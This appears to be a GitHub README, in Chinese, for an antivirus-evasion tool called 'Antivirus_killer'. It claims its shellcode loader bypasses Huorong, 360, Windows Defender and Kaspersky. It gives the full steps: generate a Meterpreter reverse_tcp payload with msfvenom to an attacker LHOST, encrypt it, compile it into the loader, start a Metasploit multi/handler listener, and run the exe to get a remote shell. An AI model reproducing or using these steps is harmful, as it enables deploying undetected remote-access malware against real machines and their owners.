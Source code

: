 # Antivirus_killer
免杀主流防病毒软件
测试与2024年9月19日加载器2024_9_19(需配合新版加密器)可过最新版火绒、360核晶模式、windows自带杀软、卡巴斯基
# 使用方法
## 生成shellcode
msfvenom LHOST=x.x.x.x LPORT=443 -p windows/x64/meterpreter/reverse_tcp -f c
## 加密shellcode 
将生成的shellcode复制到加密器.c的buf变量中并编译运行
## 编译加载器
将加密后的shellcode 复制到加载器的shellcode变量中编译
## 准备msf监听器
msfconsole<br />
use exploit/multi/handler<br />
set payload windows/x64/meterpreter/reverse_tcp<br />
set LHOST x.x.x.x<br />
set LPORT 443<br />
run<br />
## 双击编译好的exe观察是否上线
